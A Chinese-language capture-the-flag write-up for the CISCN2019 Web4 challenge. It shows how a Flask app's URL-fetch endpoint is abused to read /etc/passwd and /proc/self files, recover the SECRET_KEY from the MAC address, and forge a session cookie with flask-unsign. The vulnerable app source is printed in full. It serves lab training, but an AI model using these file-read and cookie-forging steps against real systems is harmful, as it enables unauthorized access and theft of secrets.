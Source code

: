 # \[CISCN2019 华东南赛区]Web4

## \[CISCN2019 华东南赛区]Web4

## 考点

* 文件包含
* uuid.getnode()
* flask cookie

## wp

题目链接是http://6fc4c3a4-c80d-4dc3-86bc-382a437489b9.node4.buuoj.cn:81/read?url=https://baidu.com

试试url=http://127.0.0.1没有反应，再试试url=/etc/passwd读取到了文件

访问url=/proc/self/environ，看到目录是/app

```
LANG=C.UTF-8SHELL=/bin/ashSHLVL=1WERKZEUG_RUN_MAIN=trueCHARSET=UTF-8PWD=/appWERKZEUG_SERVER_FD=3LOGNAME=glzjinUSER=glzjinHOME=/appPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binPS1=\h:\w\$ PAGER=less
```

再访问url=/proc/self/cmdline，看到路径为/usr/local/bin/python/app/app.py

再读取源码url=/app/app.py

```python
# encoding:utf-8
import re, random, uuid, urllib
from flask import Flask, session, request

app = Flask(__name__)
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)
app.debug = True

@app.route('/')
def index():
    session['username'] = 'www-data'
    return 'Hello World! <a href="/read?url=https://baidu.com">Read somethings</a>'

@app.route('/read')
def read():
    try:
        url = request.args.get('url')
        m = re.findall('^file.*', url, re.IGNORECASE)
        n = re.findall('flag', url, re.IGNORECASE)
        if m or n:
            return 'No Hack'
        res = urllib.urlopen(url)
        return res.read()
    except Exception as ex:
        print str(ex)
    return 'no response'

@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
    else:
        return 'Access denied'

if __name__=='__main__':
    app.run(
        debug=True,
        host="0.0.0.0"
    )
```

可以看到用uuid.getnode()获取随机数，且开启了debug模式。

uuid.getnode()是返回当前主机网卡MAC地址的十进制形式

```python
>>> import  uuid
>>> uuid.getnode()
238300913255264
>>> s='D8-BB-C1-48-C3-60'.replace('-','')
>>> s
'D8BBC148C360'
>>> int(s,16)
238300913255264
```

Linux中记录MAC地址的文件是/sys/class/net/eth0/address或者 /etc/sysconfig/network-scripts/ifcfg-eth0

读到是`76:cd:87:f4:ab:4d` 对应的数值是130625121332045，然后在Python2中跑一下上面的代码，得到SECRET\_KEY为44.2045972134

先flask-unsign --decode --cookie解码得到cookie为{'username': b'www-data'}

再用`flask-unsign --sign --cookie "{'username': 'fuck'}" --secret '44.2045972134'` 加密即可

## 小结

1. uuid.getnode()是返回当前主机网卡MAC地址的十进制形式
2. Linux中记录MAC地址的文件是/sys/class/net/eth0/address或者 /etc/sysconfig/network-scripts/ifcfg-eth0
3. `?url=``https://baidu.com` 像这种也可以试试文件包含或者目录穿越
4. 文件包含可读/proc/self/environ和/proc/self/cmdline

